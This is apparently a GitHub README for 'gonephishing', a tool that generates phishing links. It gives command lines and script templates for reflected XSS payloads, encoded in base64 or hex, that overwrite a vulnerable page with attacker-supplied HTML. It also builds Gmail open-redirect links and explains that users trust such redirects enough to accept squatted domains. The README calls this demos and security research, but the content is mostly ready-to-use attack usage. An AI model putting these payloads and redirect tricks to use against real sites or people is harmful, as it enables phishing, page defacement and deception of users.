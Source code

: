# gonephishing


Generate phishing urls for demos and fun (serious security research).

### clone

git clone --recurse-submodules https://github.com/vlp443/gonephishing.git

### Requires

pip3 install htmlmin

### Usage

#### Reflected XSS

 Generate a minified version of an html file and optionally encode it then inject it into some javascript/html.  
 
 the string that you inject into (the javascript that injects the html file) must contain a $-$ field to mark location to inject html into.  
 
 Current supported encoders are b64 (base64), hex ('\xAA\xBB' etc), pcnt (every character as url encoded).  If pcnt encoding isnt selected the string gets a standard urlencode
 
 IE only supports around 2000 characters in a get.


Create a file called test.html (the @ sign below signifies that you are using a file rather than direct input)
~~~
python3 ./gonephishing.py --xss --html "@./test.html" --js '<script>document.body.innerHTML=atob("$-$")</script>'  --encoders --encoders b64

python3 ./gonephishing.py --xss --html "@./test.html" --js '<script>document.body.innerHTML=("$-$")</script>'  --encoders --encoders hex

python3 ./gonephishing.py --xss --html "@./test.html" --js '<script>document.body.innerHTML=atob("$-$")</script>'  --encoders --encoders b64,hex 
~~~
Paste the generated link into the vulnerable request parameter and the page should be overwritten with the supplied html.


#### GMAIL Redirect

~~~
python3 ./gonephishing.py --gmail  --dest https://cutecatsinhats.com/ 
~~~


### About
The OWASP top ten 2013 included A10-Unvalidated Redirects and Forwards with the following description:
Web applications frequently redirect and forward users to other pages and websites, and use untrusted data to determine the destination pages. Without proper validation, attackers can redirect victims to phishing or malware sites, or use forwards to access unauthorized pages. 

This item does not appear in the top ten 2017

google.com has over 40 unsecured redirects  This is unlikely to change as google do not see it as a vulnerability. https://sites.google.com/site/bughunteruniversity/nonvuln/open-redirect


I would expect that the majority of users would trust a site if they were redirected via mail server domain that they were logged into.  This would then cause the user to be more likely to accept a squatted domain of the type described in the quiz below due to the fact that they trust the url via which they were redirected.
 https://phishingquiz.withgoogle.com/



